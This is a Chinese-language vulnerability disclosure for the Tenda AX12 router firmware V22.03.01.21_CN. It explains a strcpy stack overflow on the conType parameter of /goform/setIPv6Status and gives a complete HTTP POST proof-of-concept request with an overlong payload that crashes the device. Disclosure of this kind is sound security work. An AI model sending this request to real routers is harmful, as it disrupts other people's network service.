

# 漏洞描述

设备：Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

漏洞类型：栈溢出

攻击效果：拒绝服务

# 漏洞成因

该漏洞为发生在`sub_422CE4`函数中的栈溢出漏洞，该函数处理`/goform/setIPv6Status`下的post请求

在这个函数中，v3直接来源于http数据包中的`conType`参数，随后调用了strcpy函数对其进行处理，而缺乏相应的安全检测，导致栈溢出



攻击者可借此通过一段长的`conType`字符，实现拒绝服务攻击

# POC

拒绝服务的poc：

```
POST /goform/setIPv6Status HTTP/1.1
Host: tendawifi.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 608
Connection: close
Referer: http://tendawifi.com/index.html

conType=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

